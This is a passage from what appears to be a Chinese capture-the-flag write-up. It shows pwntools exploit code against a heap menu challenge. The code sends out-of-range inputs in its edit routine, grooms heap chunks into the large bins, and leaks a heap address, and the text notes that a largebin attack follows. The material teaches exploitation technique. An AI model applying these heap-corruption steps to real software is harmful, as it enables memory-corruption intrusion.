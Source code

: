 ```python
	cn.recvuntil('your choice:')
	cn.sendline('2')
	cn.recvuntil('which?(0-15):')
	cn.sendline(str(idx))

def edit(idx, con):
	cn.recvuntil('your choice:')
	cn.sendline('3')
	cn.recvuntil('which?(0-15):')
	cn.sendline(str(idx))
	cn.recvuntil('color?(0:red, 1:green):')
	cn.sendline('2')
	cn.recvuntil('value?(0-999):')
	cn.sendline('1000')
	cn.recvuntil('num?(0-16)')
	cn.sendline('17')
	cn.recvuntil('new description of the apple:')
	cn.sendline(con)

def show(idx):
	cn.recvuntil('your choice:')
	cn.sendline('4')
	cn.recvuntil('which?(0-15):')
	cn.sendline(str(idx))

add(0x10,'0')
add(0x10,'1')
add(0x10,'2')
add(0x3f0,'3')
add(0x80,'4')
add(0x3e0,'5')
add(0x10,'6')
add(0x80,'7')
add(0x10,'8')
add(0x40,'9')
add(0x10,'a')

dele(1) #备用
dele(3) #largebin1(此时在unsorted)
dele(5) #largebin2(此时在unsorted)
add(0x400,'1') #malloc_consoldate,把两个largebin放到largebin list中

show(3) # leak

cn.recvuntil('description:')
heap = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-0x540
success('heap: '+hex(heap))
```

但这样我们是得不到libc地址的,因此我们使用largebin attack
